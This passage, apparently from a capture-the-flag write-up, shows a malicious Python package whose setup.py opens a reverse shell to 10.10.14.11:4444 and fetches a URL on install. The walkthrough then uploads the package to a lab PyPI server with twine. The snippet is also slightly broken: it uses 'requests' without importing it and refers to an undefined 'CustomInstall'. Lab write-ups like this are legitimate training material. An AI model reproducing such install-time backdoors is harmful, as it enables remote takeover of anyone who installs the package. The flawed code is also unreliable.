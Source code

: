     :::text
    package
    ├── build
    │   └── lib.linux-x86_64-2.7
    │       └── plop
    │           ├── __init__.py
    │           └── plop.py
    ├── dist
    │   └── plop-0.3.tar.gz
    ├── LICENSE.txt
    ├── MANIFEST
    ├── plop
    │   ├── __init__.py
    │   └── plop.py
    ├── plop.egg-info
    │   ├── dependency_links.txt
    │   ├── PKG-INFO
    │   ├── SOURCES.txt
    │   └── top_level.txt
    ├── README
    ├── setup.cfg
    └── setup.py

The code in `setup.py` is:

    :::python
    from setuptools import setup
    import sys
    import os
    import socket
    import pty
    from setuptools.command.install import install
    import getpass

    requests.get('http://10.10.14.11:8000/boom')
    if getpass.getuser() != 'kali':
        s=socket.socket()
        s.connect(('10.10.14.11',4444))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")

    setup(
    name = 'plop',         # How you named your package folder (MyLib)
      packages = ['plop'],   # Chose the same as "name"
      version = '0.3',      # Start with a small number and increase it with every change you make
      license='MIT',        # Chose a license from here: https://help.github.com/articles/licensing-a-repository
      cmdclass={'install': CustomInstall},
    )

We build our package with `python setup.py sdist` and upload it to the PyPi
server with `twine`:

    :::text
    twine upload --repository-url http://pypi.sneakycorp.htb:8080/ dist/* --verbose
